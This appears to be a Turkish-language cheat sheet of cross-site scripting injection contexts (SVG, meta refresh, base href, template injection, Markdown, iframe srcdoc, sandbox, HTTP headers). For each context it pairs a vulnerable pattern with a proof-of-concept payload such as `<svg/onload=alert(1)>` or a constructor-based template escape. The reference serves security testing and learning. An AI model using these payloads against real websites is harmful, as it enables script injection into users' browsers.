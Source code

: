<h1>CONTEXTS</h1>
<br>

<h2>🔹 9. SVG / XML Context</h2>
<h4>SVG veya XML içeriğinde çalıştırma.</h4><br>

📌 Örnek:  
`<svg><circle onload="alert(1)"/></svg>`  
<br>
🎯 Exploit:  
```html
<svg/onload=alert(1)>
```
<br>



<h2>🔹 10. Meta Tag Context</h2>
<h4>HTML içindeki `meta` etiketiyle manipulasyon.</h4><br>

📌 Örnek:  
`<meta http-equiv="refresh" content="0;url=PAYLOAD">`  
<br>
🎯 Exploit:  
```html
javascript:alert(1)"
```
<br>



<h2>🔹 11. Base Href Context</h2>
<h4>Eğer base href="..." elementi kontrol ediliyorsa.</h4><br>

📌 Örnek:  
```
<base href="javascript://">
<a href="/x">Click</a>
```  
<br>
🎯 Exploit:  

```html
<base href="javascript://">
<a href="/alert(1)">Click</a>
``` 
<br>


<h2>🔹 12. Template Injection Context</h2>
<h4>Client-side templating sistemlerinde: Mustache, Handlebars, AngularJS, VueJS.</h4><br>

📌 Örnek:  
```html
<script type="text/template">
  Hello {{PAYLOAD}}
</script>
```
<br>

🎯 Exploit:  
```js
{{constructor.constructor("alert(1)")()}}
```
<br>



<h2>🔹 13. Markdown / BBCode Context</h2>
<h4>Input markdown olarak parse edilip HTML'ye dönüşür.</h4><br>

📌 Örnek:  
`[click](javascript:alert(1))`  
<br>
🎯 Exploit:  
```html
![img](javascript:alert(1))
```
<br>



<h2>🔹 14. Iframe Srcdoc Context</h2>
<h4>HTML içeriği iframe içine srcdoc olarak yazılır.</h4><br>

📌 Örnek:  
```document.body.innerHTML = `<iframe srcdoc="${userInput}">`;```  
veya  
`element.innerHTML = location.hash;`
<br>  
🎯 Exploit:  
```html
#<iframe srcdoc="<script>alert(1)</script>" sandbox="allow-scripts">
```
srcdoc payload’larında sandbox="allow-scripts" olmazsa script çalışmaz.  
<br>



<h2>🔹 15. Sandboxed Context (Controlled via CSP / Sandbox attr)</h2>
<h4>iframe[sandbox], CSP gibi güvenlik kontrollerinin yanlış yapılandırılması sonucu ortaya çıkar.</h4><br>

📌 Örnek:  
`<iframe sandbox="allow-scripts" srcdoc="PAYLOAD"></iframe>`  
<br>
🎯 Exploit:  
```html
<script>alert(1)</script>
```
srcdoc payload’larında sandbox="allow-scripts" olmazsa script çalışmaz.  
<br>



<h2>🔹 16. HTTP Header Context</h2>
<h4>Bazı XSS'ler response header içeriğiyle tetiklenir.</h4><br>

📌 Örnek:  
`Location: PAYLOAD`
<br>  
🎯 Exploit:  
```html
javascript:alert(1)
```
Ayrıca kontrol edilmesi gerekenler:  
`Refresh:` `Referer:` `Content-Security-Policy:` injection olabilir.
